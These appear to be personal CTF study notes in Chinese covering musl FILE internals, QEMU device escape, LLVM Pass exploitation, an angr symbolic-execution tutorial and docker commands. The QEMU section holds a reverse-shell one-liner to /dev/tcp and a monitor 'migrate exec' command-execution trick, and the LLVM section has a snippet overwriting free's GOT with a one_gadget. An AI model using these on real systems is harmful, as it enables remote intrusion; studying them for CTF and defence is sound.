由dequeue和queue的性质可知，meta相连必须要是分配的chunk与释放的chunk在同一group上同时存在


**puts->fputs_unlocked->fwrite_unlocked->__fwritex**


```c
size_t __fwritex(const unsigned char *restrict s, size_t l, FILE *restrict f)
{
	size_t i=0;

	if (!f->wend && __towrite(f)) return 0;

	if (l > f->wend - f->wpos) return f->write(f, s, l);  <---

	if (f->lbf >= 0) {
		/* Match /^(.*\n|)/ */
		for (i=l; i && s[i-1] != '\n'; i--);
		if (i) {
			size_t n = f->write(f, s, i); 
			if (n < i) return n;
			s += i;
			l -= i;
		}
	}

	memcpy(f->wpos, s, l);
	f->wpos += l;
	return l+i;
}
```


```
 mov rsp, qword ptr [rdi + 0x30] ; jmp qword ptr [rdi + 0x38]
```


## qemu pwn


```sh
sudo apt install libxenstore3.0
sudo apt install libyajl2
sudo apt install libsnappy-dev
sudo apt install libsdl2-image-2.0-0
sudo apt install libvdeplug2
wget http://archive.ubuntu.com/ubuntu/pool/main/x/xen/libxen-4.9_4.9.2-0ubuntu1_amd64.deb
wget http://archive.ubuntu.com/ubuntu/pool/universe/libn/libnfs/libnfs11_2.0.0-1~exp1_amd64.deb
wget http://archive.ubuntu.com/ubuntu/pool/main/b/brltty/libbrlapi0.6_5.5-4ubuntu2_amd64.deb
sudo dpkg -i libxen-4.9_4.9.2-0ubuntu1_amd64.deb
sudo dpkg -i libnfs11_2.0.0-1~exp1_amd64.deb
sudo dpkg -i libbrlapi0.6_5.5-4ubuntu2_amd64.deb

wget http://archive.ubuntu.com/ubuntu/pool/main/o/openssl1.0/libssl1.0.0_1.0.2n-1ubuntu5_amd64.deb
sudo dpkg -i libssl1.0.0_1.0.2n-1ubuntu5_amd64.deb
```


```
lspci
cat /sys/devices/pci0000\:00/0000\:00\:04.0/resource
```


需要注意的-monitor这一句，因为如果有的题目没有加这一句就可以进入monitor模式， 可以参考[RealWorld CTF Writeup by r3kapig](https://xz.aliyun.com/t/2513#toc-6)
步骤是首先ctrl+a 然后输入c回车之后即可进入monitor模式，然后就可以为所欲为了，可以用migrate来执行命令读取flag

```
migrate "exec:cat flag 1>&2"
```


反弹 shell，/bin/bash -c ‘bash -i >& /dev/tcp/ip/port 0>&1’，在 QEMU 逃逸中，执行 system(“/bin/bash”) 是无法拿到 shell 的，或者说是无法与 shell 内容交互的，必须使用反弹 shell 的形式才能够拿到 shell。


timer相关函数实现于：https://elixir.bootlin.com/qemu/v2.9.0-rc5/source/util/qemu-timer.c

对照timer函数源码，在pci_hitb_realize中分析timer_init_tl函数（新版本qemu已改为timer_init）。可见hitb_dma_timer被赋给了cb，scale的单位是ns，所以1000000ns就是1ms，而expire_time超时时间被设置成了-1，推测为永不过时。

```
/*
void timer_init_tl(QEMUTimer *ts,
                   QEMUTimerList *timer_list, int scale,
                   QEMUTimerCB *cb, void *opaque)
{
    ts->timer_list = timer_list;
    ts->cb = cb;
    ts->opaque = opaque;
    ts->scale = scale;
    ts->expire_time = -1;
}
*/
timer_init_tl((QEMUTimer_0 *)&pdev[1].io_regions[4], main_loop_tlg.tl[1], 1000000, hitb_dma_timer, pdev);
```

而timer_mod第二个参数是expire_time，所以timer_mod这个mod应该是modify，修改的是超时时间：

```
/*
void timer_mod(QEMUTimer *ts, int64_t expire_time)
{
    timer_mod_ns(ts, expire_time * ts->scale);
}
*/
ns = qemu_clock_get_ns(QEMU_CLOCK_VIRTUAL_0);
timer_mod(&opaque->dma_timer, ns / 1000000 + 100);
```

所以hitb_mmio_write中的timer_mod就是将超时时间设置成了当前时间+100，单位为ms，因此也就是0.1s后。那推测当执行完这句timer_mod的0.1s后，qemu会开始调用hitb_dma_timer。所以对于这个timer的理解，不是自动调用的，而是每个timer函数对应一个超时时间，如果想多次调用就要多次修改超时时间。


cpu_physical_memory_rw函数原型为：

```
void cpu_physical_memory_rw(hwaddr addr, uint8_t *buf,int len, int is_write);
```

这个函数的内存视角有两个：hwaddr是客户机的物理地址，buf是qemu自身的虚拟地址。值得注意的是，is_write是相对与第一个参数即客户机的物理地址来说的：

- is_write为1，写物理内存，即读buf
- is_write为0，读物理内存，即写buf


在进行拷贝时，虽然用户可以申请一个大于0x1000在虚拟地址上连续的内存空间，但其未必是物理地址空间上连续的多个页。所以在qemu执行cpu_physical_memory_rw时，可能会将用户传来的物理地址后连续的其他页覆盖，不仅无法泄露信息，还可能会引发异常崩溃。所以当使用cpu_physical_memory_rw函数进行较长的内存拷贝时，一定要确保给出的空间在物理地址上连续。对此比较保险的办法就是想办法获得一大片的连续物理内存，找到[Linux申请大页内存](https://cloud.tencent.com/developer/article/1055041) ，此法可以申请linux大页，。申请后还需访存一下，确保物理页被真实映射。

Linux HugePages

https://zhuanlan.zhihu.com/p/366702339

操作系统每个页默认大小为4KB。如果进程使用的内存过大，比如1GB，这样会在页表中占用 1GB / 4KB = 262144个页表项，而系统TLB可以容纳的页表项远小于这个数量。当多个内存密集型应用访问内存时，会造成过多的TLB未命中，因此在特定情况下会需要减少未命中次数，一个可行的办法就是增大每个页的尺寸。操作系统默认支持的大页是2MB，当使用1GB内存时，在页表中将占用 1GB / 2MB = 512个页表项，可以大大提升TLB命中率，进而提升应用性能。

```
#先查看系统有多少已经预留的大页内存
# cat /proc/meminfo |grep -i huge
#预留192个大页
# sysctl vm.nr_hugepages=192
#查看是否预留成功
# cat /proc/meminfo |grep -i huge

mmap(0, 0x200000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | 0x40000 /*MAP_HUGETLB*/, -1, 0);
```


```
address_space_rw()
    ...
    memory_region_dispatch_read()
      ...
      mr->ops->read()
      mr->ops->read_with_attrs()
```


# LLVM Pass

编译器结构可分为前端（Front end）和后端（Back end）两部分。前端是机器无关的，其功能是把源程序分解成组成要素和相应的语法结构，通过这个结构创建源程序的中间表示，同时收集和源程序相关的信息，存放到符号表中；后端则是机器相关的，其功能是根据中间表示和符号表信息构造目标程序。

 编译过程可以大致分为5个步骤：词法分析（Lexical analysis）；语法分析（Syntax analysis）；语义分析（Semantic analysis）；中间代码生成和优化；代码生成和优化


LLVM是构架编译器的框架系统，以C++编写而成，用于优化以任意程序语言编写的程序的编译时间、链接时间、运行时间以及空闲时间，对开发者保持开放，并兼容已有脚本。

pass是一种编译器开发的结构化技术，用于完成编译对象（如IR）的转换、分析或优化等功能。pass的执行就是编译器对编译对象进行转换、分析和优化的过程，pass构建了这些过程所需要的分析结果。总而言之，`LLVM PASS`就是去处理`IR`文件，通过`opt`利用写好的`so`库优化已有的`IR`，形成新的`IR`。

而`LLVM PASS`类`PWN`就是`opt`加载`pass.so`文件，对`IR`代码进行转换和优化这个过程中存在的漏洞加以利用。这里需要注意的是`.so`文件是不会被`pwn`的，我们`pwn`的是加载`.so`文件的程序——`opt`。所以我们需要对`opt`进行常规的检查。


LLVM整体架构，前端用的是clang，广义的LLVM是指整个LLVM架构，一般狭义的LLVM指的是LLVM后端（包含代码优化和目标代码生成）。


LLVM工具

- `llvm-as`：把LLVM IR从人类能看懂的文本格式汇编成二进制格式。注意：此处得到的**不是**目标平台的机器码。
- `llvm-dis`：`llvm-as`的逆过程，即反汇编。 不过这里的反汇编的对象是LLVM IR的二进制格式，而不是机器码。
- `opt`：优化LLVM IR。输出新的LLVM IR。
- `llc`：把LLVM IR编译成汇编码。需要用`as`进一步得到机器码。
- `lli`：解释执行LLVM IR。

LLVM IR实际上有三种表示：

1. .ll 格式：人类可以阅读的文本。
2. .bc 格式：适合机器存储的二进制文件。
3. 内存表示

编译：

- .c -> .ll：`clang -emit-llvm -S a.c -o a.ll`
- .c -> .bc: `clang -emit-llvm -c a.c -o a.bc`
- .ll -> .bc: `llvm-as a.ll -o a.bc`
- .bc -> .ll: `llvm-dis a.bc -o a.ll`
- .bc -> .s: `llc a.bc -o a.s`


```
clang `llvm-config --cxxflags` -Wl,-znodelete -fno-rtti -fPIC -shared Hello.cpp -o LLVMHello.so `llvm-config --ldflags`
opt -load /home/x/Desktop/LLVMHello.so -enable-new-pm=0 -hello main.ll
```


Module包含Function，其中包含BasicBlock ，其中包含Instruction。除了 Module 之外的所有东西都来自Value。

以下是 LLVM 程序中最重要组件的概述：

- 一个模块（Module）代表一个源文件（粗略地）或一个翻译单元。其他所有内容都包含在模块中。

  

- 最值得注意的是，Modules包含Function：命名的可执行代码块。（在 C++ 中，函数和方法都对应于 LLVM 函数。）

  

- 除了声明其名称和参数外，Function 主要是BasicBlock（BB）的容器。基本块（BB）是编译器的概念，但就我们的目的而言，它只是一段连续的指令。

  

- 反过来，指令是单个代码操作。抽象级别与类似RISC的机器代码中的抽象级别大致相同：例如，指令可能是整数加法、浮点除法或存储到内存。

- LLVM 中的大多数东西（包括 Function、BasicBlock 和 Instruction）都是从名为Value的基类继承而来。Value是可以在计算中使用的任何数据——例如，数字或某些代码的地址。全局变量和常量（又名literals或immediates，如 5）也是Value。


IR指令

终结指令

**ret指令**：函数的返回指令，对应 C/C++ 中的 return。


**br** **指令**：br 是”分支”的英文 branch 的缩写，分为非条件分支和条件分支，对应 C/C++ 的 if 语句。

无条件分支类似于x86汇编中的 jmp 指令，条件分支类似于x86汇编中的 jnz, je 等条件跳转指令。


[LLVM: llvm::CallBase Class Reference](https://llvm.org/doxygen/classllvm_1_1CallBase.html)


```c++
#include "llvm/Pass.h"
#include "llvm/IR/Function.h"
#include "llvm/IR/Constants.h"
#include "llvm/IR/BasicBlock.h"
#include "llvm/IR/Instructions.h"
#include "llvm/Support/raw_ostream.h"
#include "llvm/IR/LegacyPassManager.h"
#include "llvm/Transforms/IPO/PassManagerBuilder.h"
using namespace llvm;
 
namespace {
  struct Hello : public FunctionPass {	//继承LLVM核心库中的FunctionPass类
    static char ID;
    Hello() : FunctionPass(ID) {}
    bool runOnFunction(Function &F) override {	//重写父类runOnFunction函数
      errs() << "Hello: ";			//errs () 是 LLVM 提供的 C++ 输出流
      errs().write_escaped(F.getName()) << '\n';	//getName()函数用于获取当前runOnFunction正处理的函数名
      SymbolTableList<BasicBlock>::const_iterator bbEnd = F.end();
      for(SymbolTableList<BasicBlock>::const_iterator bbIter = F.begin(); bbIter != bbEnd; ++bbIter){
         SymbolTableList<Instruction>::const_iterator instIter = bbIter->begin();
         SymbolTableList<Instruction>::const_iterator instEnd  = bbIter->end();
         for(; instIter != instEnd; ++instIter){
            errs() << "OpcodeName = " << instIter->getOpcodeName() << " NumOperands = " << instIter->getNumOperands() << "\n";	//getOpcodeName()函数用于获取指令的操作符的名称，getNumOperands()用于获取指令的操作数的个数
            if (instIter->getOpcode() == 56)
            {
                if(const CallInst* call_inst = dyn_cast<CallInst>(instIter)) {
                    errs() << call_inst->getCalledFunction()->getName() << "\n";	//getCalledFunction()函数就是用于获取调用的函数名称
                    for (int i = 0; i < instIter->getNumOperands()-1; i++)	//这里需要-1是因为对于call和invoke操作符，操作数的数量是实际参数的个数+1（因为将被调用者也当成了操作数）
                    {
                        if (isa<ConstantInt>(call_inst->getOperand(i)))	//getOperand(i)是用于获取第i个操作数（在这里就是获取所调用函数的第i个参数），getArgOperand()函数与其用法类似，但只能获取参数
                        {
                            errs() << "Operand " << i << " = " << dyn_cast<ConstantInt>(call_inst->getArgOperand(i))->getZExtValue() << "\n";	//获取参数中具体的值
                        }
                    }
                }
            }
         }
      }
      return false;
    }
  };
}
 
char Hello::ID = 0;
 
// Register for opt
static RegisterPass<Hello> X("Hello", "Hello World Pass");
 
// Register for clang
static RegisterStandardPasses Y(PassManagerBuilder::EP_EarlyAsPossible,
  [](const PassManagerBuilder &Builder, legacy::PassManagerBase &PM) {
    PM.add(new Hello());
  });
```


```
set args -load ./VMPass.so -VMPass exp.ll
```


```
void add(int num, long long val);
void min(int num, long long val);
void load(int num);
void store(int num);
 
void o0o0o0o0()
{
    add(1, 0x77E100);	//reg1 = 0x77e100 free函数的got表地址
    load(1);			//reg2 = *(0x77e100) free的libc地址
    min(2, 0x9a6d0);	// reg2 = libcbase
    add(2, 0xe3afe);	// reg2 = one_gadget free = one_gadget
    store(1);			//	free_got = one_gadget 
}
```


```
   f 1   0x7ffff4e20510 llvm::FPPassManager::runOnFunction(llvm::Function&)+1008
   f 2   0x7ffff4e20783 llvm::FPPassManager::runOnModule(llvm::Module&)+51
   f 3   0x7ffff4e20b4e llvm::legacy::PassManagerImpl::run(llvm::Module&)+750
   f 4         0x4bb7e8 main+11512

```


```
 sudo apt-get install openssh-server
 sudo service ssh start
```


# Angr

```
sudo apt-get install python3-dev libffi-dev build-essential virtualenvwrapper
sudo pip install virtualenv
sudo pip install virtualenvwrapper
vim .zshrc
source ~/.zshrc
#mkvirtualenv angr
pip install angr
```


[angr 系列教程(一）核心概念及模块解读 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7117)


#### 顶层接口

使用 angr 第一件事就是加载二进制文件，在 angr 中，基本上所有的对象操作都依赖于已有的 Project 。

```python
import angr
proj = angr.Project('./test')
```


载入二进制文件后，我们就可以访问一些基本属性，如文件名、架构、入口地址：

```
proj.arch	#架构
proj.entry	#入口地址
proj.filename	#文件名
```


loader，angr 中的 CLE 模块用于将二进制文件载入虚拟地址空间

```
proj.loader
proj.loader.shared_objects
proj.loader.min_addr
proj.loader.max_addr
```


**pre-binary 选项**

如果你想要对一个特定的二进制对象设置一些选项，CLE也能满足你的需求在加载二进制文件时可以设置特定的参数，使用 `main_opts` 和 `lib_opts` 参数进行设置。

- `backend` - 指定 backend
- `base_addr` - 指定基址
- `entry_point` - 指定入口点
- `arch` - 指定架构

示例如下：

```
>>> angr.Project('examples/fauxware/fauxware', main_opts={'backend': 'blob', 'arch': 'i386'}, lib_opts={'libc.so.6': {'backend': 'elf'}})
<Project examples/fauxware/fauxware>
```

参数`main_opts`和`lib_opts`接收一个以python字典形式存储的选项组。`main_opts`接收一个形如{选项名1：选项值1，选项名2：选项值2……}的字典，而`lib_opts`接收一个库名到形如{选项名1:选项值1，选项名2:选项值2……}的字典的映射。

> lib_opts是二级字典，原因是一个二进制文件可能加载多个库，而main_opts指定的是主程序加载参数，而主程序一般只有一个，因此是一级字典。

这些选项的内容因不同的后台而异，下面是一些通用的选项：

- backend —— 使用哪个后台，可以是一个对象，也可以是一个名字(字符串)
- custom_base_addr —— 使用的基地址
- custom_entry_point —— 使用的入口点
- custom_arch —— 使用的处理器体系结构的名字

例如

```
path_to_binary = "./lib14_angr_shared_library.so" 
base = 0x8048000
project = angr.Project(path_to_binary, load_options={ 
		'main_opts' : { 
        'custom_base_addr' : base 
	} 
})
```


#### factory

即 `AngrObjectFactory`，提供重要分析对象的接口，如 `blocks / state / SimulationManager` 等。

##### blocks

即程序基本块，我们可以给定地址，获取对应的基本块，为 Block 对象

```
block = proj.factory.block(address) #获取给定地址所在的基本块
block.pp() #反汇编
```


##### states

Project 对象仅表示程序的初始镜像，而在执行时，我们实际上是对 SimState 对象进行操作，它代表程序的一个实例镜像，模拟执行某个时刻的状态。

```
state = proj.factory.entry_state() #获取一个程序的初始执行状态 
state = proj.factory.blank_state(addr) #获取一个程序从指定地址开始执行的空白状
state = project.factory.call_state(validate_function_address, buffer_pointer, claripy.BVV(8, 32)) #构造一个已经准备好执行某个函数的状态
state = project.factory.full_init_state() #构造一个已经执行过所有与需要执行的初始化函数，并准备从函数入口点执行的状态。比如，共享库构造函数（constructor）或预初始化器。当这些执行完之后，程序将会跳到入口点
```


`SimState` 对象包含程序运行时信息，如内存/寄存器/文件系统数据等。

- `state.regs`：寄存器状态组，其中每个寄存器都为一个 *位向量* （BitVector），我们可以通过寄存器名称来访问对应的寄存器（例如 `state.regs.esp ` ）
- `state.mem`：该状态的内存访问接口，我们可以直接通过 `state.mem[addr].type` 完成内存访问（例如 `state.mem[0x1000].long = 4` ，对于读而言还需指定 `.resolved` 或 `.concrete` 表示位向量或是实际值，例如 `state.mem[0x1000].long.concrete`）
- 对于 `state.mem` 接口：
  - `mem[ index ]` 指定地址
  - `.<type>` 指定类型（如 `char, short, int, long, size_t, uint8_t, uint16_t...` ）
  - `.resolved` 将数据输出为位向量。
  - `.concrete` 将数据输出为int值。
- `state.memory`：另一种形式的内存访问接口：
  - `state.memory.load(addr, size_in_bytes)` ：获取该地址上指定大小的位向量
  - `state.memory.store(addr, bitvector)` ：将一个位向量存储到指定地址
  - 需要注意的是如果要储存具体值，则需要通过 `endness` 参数指定大小端序
- `state.posix`：POSIX 相关的环境接口，例如 `state.posix.dumps(fileno)` 获取对应文件描述符上的流
- `state.solver` 提供了一些基于状态的求解接口，例如 solver 同样有创建位向量的 `.BVV()` 与 `.BVS()` 接口
- 使用 `state.solver.eval()` 成员函数来获取对应位向量在当前状态下的值
- `state.stack_push(val)` 来**手动地将符号变量推到栈上**
- 使用 `state.solver.symbolic()` 判断 `函数` 的参数是否是我们的 BVS
- 使用 `state.copy()` 获取当前状态的副本，之后在该副本上添加约束以避免影响到原状态
- 使用 `state.satisfiable()` 判断是否满足约束，若是则添加到原状态中求解即可


```python
password_0 = claripy.BVS('password_0',32)
init_state.regs.eax = password_0
solution_0 = solution_state.solver.eval(password_0, cast_to=bytes)

init_state.stack_push(password_0)	#push的值注意要与原程序的栈偏移和数据保存一致

init_state.memory.store(0xA9F053C, 0x2233000, endness=proj.arch.memory_endness) #向地址中传入具体的值
```


eval

- `solver.eval(expression)` 将会解出一个可行解
- `solver.eval_one(expression)`将会给出一个表达式的可行解，若有多个可行解，则抛出异常。
- `solver.eval_upto(expression, n)`将会给出最多n个可行解，如果不足n个就给出所有的可行解。
- `solver.eval_exact(expression, n)`将会给出n个可行解，如果解的个数不等于n个，将会抛出异常。
- `solver.min(expression)`将会给出最小可行解
- `solver.max(expression)`将会给出最大可行解


BV是位向量(bitvector)的简称，实际上就是一串比特序列，angr 使用位向量表示 CPU 数据。

```
>>> bv = state.solver.BVV(0x1234, 32)       # create a 32-bit-wide bitvector with value 0x1234
<BV32 0x1234>                               
>>> state.solver.eval(bv)                # convert to python int
0x1234

#也可以通过 claripy.BVV(int_value, size_in_bits) 或 claripy.BVV(string_value) 创建带有具体值（concrete value）的指定长度的位向量值（bitvector value）
```

相同长度的位向量可以进行运算，对于不同长度的位向量则可以通过 `.zero_extend(extended_bits)` 完成位扩展（0填充）后进行运算，需要注意的是位向量的运算同样存在溢出


位向量除了代表具体值（concrete value）的 `bitvector value` 以外，还有代表**符号变量**（symbolic variable）的 `bitvector symbol`，我们可以通过 `claripy.BVS(name, size_in_bits)` 创建带名字的指定长度的位向量符号（bitvector symbol）：

```
>>> bvs = claripy.BVS("x", 64)
>>> bvs
<BV64 x_0_64>
>>> bvs2 = claripy.BVS("y", 64)
>>> bvs2
<BV64 y_1_64>
```

位向量符号与位向量值之间同意可以进行运算，组合成更加复杂的表达式：

```
>>> bvs3 = (bvs * bvs2 + bvv) / bvs
>>> bvs3
<BV64 (x_0_64 * y_1_64 + 0x617274746e626133) / x_0_64>
```

我们可以通过 `.op` 与 `.args` 获得位向量的运算类型与参数：

```
>>> bvv.op
'BVV'
>>> bvs.op
'BVS'
>>> bvs3.op
'__floordiv__'
>>> bvs3.args
(<BV64 x_0_64 * y_1_64 + 0x617274746e626133>, <BV64 x_0_64>)
>>> bvv.args
(7021802812440994099, 64)
```


##### Simulation Managers

SM(Simulation Managers) 用于管理 state，执行 运行、模拟等操作。

使用单个 state 或 state 列表创建 `Simulation Managers`

```
simgr = proj.factory.simgr(state)
simgr = proj.factory.simulation_manager(state)
```


- simgr.step()：以基本块为单位的单步执行
- simgr.explore(addr)：路径探索，即执行到指定地址并进行约束求解，将执行完成的状态放在 simgr.found 列表中，若无法求解则该列表为空
  - 使用模拟器的 `.explore()` 方法来进行路径探索，传入的默认参数为 `find`——一个/一组令模拟器终止运行的地址，符合的执行状态结果会被放到 `.found` 列表中
  - 但除了 `find` 参数外，我们也可以指定 `avoid` 参数——模拟器运行中应当要**避开**的地址，当一个状态执行到这样的地址时，其会被放在 `.avoided` 列表中并不再往后执行
  - **还可以是自定义函数，参数为模拟状态，返回值为判定条件的布尔值**


```python
def find_path(state):
    return b'Good Job.' in state.posix.dumps(sys.stdout.fileno())
def avoid_path(state):
    return b'Try again.' in state.posix.dumps(sys.stdout.fileno())

simgr.explore(find = find_addr, avoid = avoid_addr)
if simgr.found:
	solution_state = simgr.found[0]
    print(solution_state.posix.dumps(sys.stdin.fileno()).decode())
else:
    raise Exception('Could not find the solution')
```


在 angr 当中，不同的状态被组织到 simulation manager 的不同的 stash 当中，我们可以按照自己的需求进行步进、过滤、合并、移动等。

在 angr 当中一共有以下几种 stash：

- `simgr.active`：活跃的状态列表。在未指定替代的情况下会被模拟器默认执行
- `simgr.deadended`：死亡的状态列表。当一个状态无法再被继续执行时（例如没有有效指令、无效的指令指针、不满足其所有的后继（successors））便会被归入该列表
- `simgr.pruned`：被剪枝的状态列表。在指定了 `LAZY_SOLVES` 时，状态仅在必要时检查可满足性，当一个状态在指定了 `LAZY_SOLVES` 时被发现是不可满足的（unsat），状态层（state hierarchy）将会被遍历以确认在其历史中最初变为不满足的时间，该点及其所有后代都会被 *剪枝* （pruned）并放入该列表
- `simgr.unconstrained`：不受约束的状态列表。当创建 `SimulationManager` 时指定了 `save_unconstrained=True`，则被认为**不受约束的**（unconstrained，即指令指针被用户数据或其他来源的符号化数据控制）状态会被归入该列表
- `simgr.unsat`：不可满足的状态列表。当创建 `SimulationManager` 时指定了 `save_unsat=True`，则被认为无法被满足的（unsatisfiable，即存在**约束冲突**的状态，例如在同一时刻要求输入既是`"AAAA"` 又是 `"BBBB"`）状态会被归入该列表
- `simgr.not_needed`：所有其它情况
- `simgr.found`：找到路径答案的状态

还有一种不是 stash 的状态列表——`errored`，若在执行中产生了错误，则状态与其产生的错误会被包裹在一个 `ErrorRecord` 实例中（可通过 `record.state` 与 `record.error` 访问），该 record 会被插入到 `errored` 中，我们可以通过 `record.debug()` 启动一个调试窗口


stash 操作

我们可以使用 `stash.move()` 来在 stash 之间转移放置状态，用法如下：

```
>>> simgr.move(from_stash = 'unconstrained', to_stash = 'active')
```

在转移当中我们还可以通过指定 `filter_func` 参数来进行过滤：

```
>>> def filter_func(state):
...     return b'arttnba3' in state.posix.dumps(1)
...
>>> simgr.move(from_stash = 'unconstrained', to_stash = 'active', filter_func = filter_func)
```

stash 本质上就是个 list，因此在初始化时我们可以通过字典的方式指定每个 stash 的初始内容：

```
>>> simgr = proj.factory.simgr(init_state,
...     stashes = {
...             'active':[init_state],
...             'found':[],
...     })
```


####  Emulated Filesystem

在 angr 当中与文件系统间的操作是通过 `SimFile` 对象完成的，SimFile 为对 *存储* 的抽象模型，一个 SimFile 对象可以表示一系列的字节、符号等

我们可以通过 `angr.SimFile()` 来创建一个模拟文件，创建带有具体值与符号变量的 SimFile 如下：

```
simgr_file = angr.storage.SimFile(filename, content=xxxxxx, size=file_size)
```

模拟文件需要与特定的状态进行关联，通过 `state.fs.insert(sim_file)` 或 `sim_file.set_state(state)` 我们可以将 SimFile 插入到一个状态的文件系统中：

```
initial_state.fs.insert(filename, simgr_file)
```

我们还可以从文件中读取内容：

```
>>> pos = 0
>>> data, actural_read, pos = sim_file.read(pos, 0x100)

```

对于 *流* （Streams，例如标准IO、TCP连接等）类型的文件，我们可以用 `angr.SimPackets()` 来创建：

```
>>> sim_packet = angr.SimPackets('my_packet')
>>> sim_packet
<angr.storage.file.SimPackets object at 0x7f75626a2e80>
```


```
file_name = 'KBECVEJF.txt'
passwd = claripy.BVS('passwd', 0x40 * 8)
sim_file = angr.SimFile(file_name, passwd, size = 0x40)
init_state.fs.insert(file_name, sim_file)
```


#### 路径爆炸

所谓符号执行就是把程序中的变量符号化去模拟程序运行，搜集路径约束条件并使用约束求解器对其进行求解后得到结果。当一个程序存在循环结构时，即使逻辑十分简单也可能会产生规模十分巨大的执行路径。在符号执行的过程中，每个分支点都会产生两个实例，当程序中存在循环结构展开时，可能会导致程序分支路径数呈指数级增长，即路径爆炸问题。故我们需要提供更多的约束条件控制路径爆照问题


##### 约束条件

在angr中提供了可以用加入一个约束条件到一个state中的方法（`state.solver.add`），将每一个符号化的布尔值作为一个关于符号变量合法性的断言。之后可以通过使用`state.solver.eval(symbol)`对各个断言进行评测来求出一个合法的符号值（若有多个合法值，返回其中的一个）。简单来说就是通过 `.add` 对 state 对象添加约束，并使用 `.eval` 接口求解，得到符号变量的可行解

例如：

```
# fresh state
>>> state = proj.factory.entry_state()
>>> state.solver.add(x - y >= 4)
>>> state.solver.add(y > 0)
>>> state.solver.eval(x)
5
>>> state.solver.eval(y)
1
>>> state.solver.eval(x + y)
6
```


##### 替换函数

angr使用一系列引擎（SimEngine的子类）来模拟被执行代码对输入状态产生的影响。其中就有`hook engine`来处理hook的情况。默认情况下，angr 会使用 `SimProcedures` 中的符号摘要替换库函数，即设置 Hooking，这些 python 函数摘要高效地模拟库函数对状态的影响。可以通过 `angr.procedures`或 `angr.SimProcedures` 查看列表

`SimProcedure` 其实就是 Hook 机制，可以使用 `project.hook(addr = call_insn_addr, hook = my_function, length = n)` 来 hook 掉对应的 call 指令，其中 `call_insn_addr` 为 call 指令的地址，`my_function` 为我们的自定义函数， `length` 为 call 指令的长度。

使用 `claripy.If()` 创建一个比较并将值给到 eax 寄存器作为返回值

```python
	@proj.hook(addr=0x80493CE, length=5)
    def chack_equal(state):
        bf = state.memory.load(buffer_addr, buffer_size)
        state.regs.eax = claripy.If(bf == compare_str,
                                    claripy.BVV(1, 32), claripy.BVV(0, 32))
```


angr.SimProcedure - 模拟函数（过程）

在 angr 中 `angr.SimProcedure` 类用来表示**在一个状态上的一个运行过程**——即函数实际上是一个 SimPrecedure

我们可以通过创建一个继承自 `angr.SimProcedure` 的类并重写 `run()` 方法的方式来表示一个自定义函数，其中 `run()` 方法的参数为该函数所接收的参数：

```
class MyProcedure(angr.SimProcedure):
    def run(self, arg1, arg2):
        # do something, this's an example
        return self.state.memory.load(arg1, arg2)
```

自定义函数过程主要用于对文件中的原有函数进行替换，例如 angr 缺省会用内置的一些 SimProcedure 来替换掉一些库函数
若我们已经有该二进制文件的符号表，我们可以直接使用 `project.hook_symbol(symbol_str, sim_procedure_instance)` 来自动 hook 掉文件中所有的对应符号，其中 `run()` 方法的**参数为被替换函数所接收的参数**。

SimProcedure用Python编写的我们自己的函数代替了原来函数。 除了用Python编写之外，该函数的行为与用C编写的任何函数基本相同。`self`之后的任何参数都将被视为要替换的函数的参数， 参数将是符号位向量。 另外，Python可以以常用的Python方式返回，Angr将以与原来函数相同的方式对待它。

```
import angr
import claripy

class MyProcedure(angr.SimProcedure):
    def run(self, arg1, arg2):
        # do something, this's an example
        return self.state.memory.load(arg1, arg2)

proj = angr.Project('./test')
proj.hook_symbol('func_to_hook', MyProcedure())
```

当然，在 SimProcedure 的 `run()` 过程中我们也可以使用一些有用的成员函数：

- `ret(expr)`: 函数返回
- `jump(addr)`: 跳转到指定地址
- `exit(code)`: 终止程序
- `call(addr, args, continue_at)`: 调用文件中的函数
- `inline_call(procedure, *args)`: 内联地调用另一个 SimProcedure


获取 angr 内置库函数的方式是 `angr.SIM_PROCEDURES[lib_name][function_name]` ，和我们之前自定义的 hook 函数一样都是 `SimProcedure` 类，因此我们可以使用 `project.hook(func_addr, sim_procedure_instance)` 的方式进行 hook

```
proj.hook(0x8051330, angr.SIM_PROCEDURES['libc']['scanf']())
proj.hook(0x80512E0, angr.SIM_PROCEDURES['libc']['printf']())
proj.hook(0x805EC90, angr.SIM_PROCEDURES['libc']['puts']())
proj.hook(0x806D530, angr.SIM_PROCEDURES['libc']['strcmp']())
proj.hook_symbol('__libc_start_main', angr.SIM_PROCEDURES['glibc']['__libc_start_main']())
```


##### 路径合并

动态符号执行（DSE）和静态符号执行（SSE）一个为路径生成公式，一个为语句生成公式。前者生成公式时会产生很高的负载，但生成的公式很容易解；后者生成公式很容易，公式也能覆盖更多的路径，但是公式更长更难解。方法上的区别在于DSE会摘要路径汇合点上两条分支的情况，而SSE为两条分支fork两条独立的执行路径

SSE目前还不能对大规模的程序分析（如Cloud9+state merging），问题主要在于循环的表示、方程复杂度、缺少具体状态、和对syscall等的模拟。Veritesting可以在SSE和DSE之间切换，减少负载和公式求解难度，并解决静态方法需要摘要或其他方法才能处理的系统调用和间接跳转

简单来说就是Veritesting结合了静态符合执行与动态符号执行，减少了路径爆炸的影响，在angr里我们只要在构造模拟管理器时，启用Veritesting了就行

```
project.factory.simgr(initial_state, veritesting=True)
```


# docker


```
安装
sudo apt install apt-transport-https ca-certificates curl gnupg-agent software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
sudo apt install docker-ce docker-ce-cli containerd.io
sudo usermod -aG docker x

删除
apt-get autoremove docker docker-ce docker-engine  docker.io  containerd runc
dpkg -l | grep docker
rm -rf /etc/systemd/system/docker.service.d
rm -rf /var/lib/docker
```


```
docker container run hello-world
docker run -it ubuntu:18.04
#docker container run -it
docker image ls
docker cp 1af6adede09c:/usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.25 /home/x/Desktop
docker ps
docker container ls -all

docker run -d -p "0.0.0.0:9999:9999" -h "pwn" --name="pwn" pwn
#
docker rmi d7907fbba7ea

删除container
docker stop d7907fbba7ea
docker rm $(docker ps -a -q)

查看docker各种信息
docker inspect 容器ID
docker inspect 容器ID | grep IPAddress

查看docker端口映射
docker port 容器ID

重新运行container
docker start -i mystifying_cohen
docker exec -it jovial_poincare /bin/bash

docker build -f /path/to/a/Dockerfile .

#设置标签  上传docker镜像
docker tag pwn xtxa/pwn
docker push xtxa/pwn:latest
```


```
#dockerfile

```


```
#docker-compse.yml
version: "3.9"
services:
	system-emu:		#定义项目
